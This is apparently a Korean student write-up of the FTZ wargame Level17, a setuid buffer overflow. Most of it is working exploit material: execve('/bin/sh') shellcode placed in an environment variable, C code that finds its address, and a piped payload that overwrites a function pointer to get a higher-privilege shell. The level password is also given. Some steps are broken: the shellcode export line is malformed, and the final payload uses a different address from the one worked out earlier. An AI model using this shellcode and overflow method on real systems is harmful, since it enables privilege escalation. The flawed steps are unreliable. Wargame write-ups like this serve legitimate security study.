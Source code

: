 # FTZ Level17

#### ID : level17 PW: king poetic
<br>

**먼저 ```ls -l```을 이용해 어떤 파일이 있는지 살펴보자**<br> 
attackme 프로그램에 level18의 권한으로 setuid가 걸려있는 것을 확인할 수 있다.<br><br>
우선 hint의 내용을 보자<br>
```cat hint```<br>
```c
#include <stdio.h>

main()
{
      void printit(){
        printf("Hello there!\n");
      }
      main(){
        int crap;
        void (*call)()=printit;
        char buf[20];
        fgets(buf, 48, stdin);
        setreuid(3098, 3098);
        call();
      }
}
```
Level16과 매우 비슷한데 shell 함수만 없다. 그러므로 환경변수에 쉘 코드를 등록하는 방법을 이용할 것이다.

우리의 목적을 생각해보자.<br>
1. buf에서 *call까지 거리 구하기
2. 쉘 코드 환경변수 등록 후 주소 확인
3. *call 위치 쉘 코드 주소로 덮어 씌우기
3. 공격!

buf에서 *call까지의 거리는 level16과 동일하므로 40이다<br>
[ftz_level16.md 참고하기](https://github.com/white-bean/security-study/)

이제 쉘 코드를 등록하고 주소를 찾아보자.<br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80<br>

```export shellcode=$(python -c 'print "\n90"*20+\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')```<br>
vi에디터를 이용해 쉘 코드의 주소값을 받아오는 코드를 작성한다.<br>
```vi shell.c```<br>
```c
#include <stdio.h>

int main()
{
    printf("%p\n", getenv("shellcode"));
    return 0;
}
```
```
gcc -o shell shell.c
./shell
```
만든 코드를 실행시키면 쉘 코드의 주소값을 알 수 있다.<br>
필자의 경우 0xbffffef4가 나왔다.<br>

그렇다면 우리가 작성할 페이로드는 다음과 같다고 할 수 있다.<br>
**"A"*(buf~call까지 거리)+(0xbffffef4)**<br>

**이제 페이로드를 작성해보자.**<br>
```(python -c 'print "A"*40+"\xf4\xfe\xff\xbf"';cat)|./attackme```<br>
*(주소는 little endian 방식으로 입력된다)*<br>
<br>
```cd ..``` 다시 원래 디렉토리로 되돌아가서<br>
**공격 실시!**<br>
```(python -c 'print "A"*40+"\xb2\x84\x04\x08"';cat)|./attackme```<br>
```my-pass```로 비밀번호를 물어보면<br>
Level18 Password is "~~". 라고 나올 것이다!!

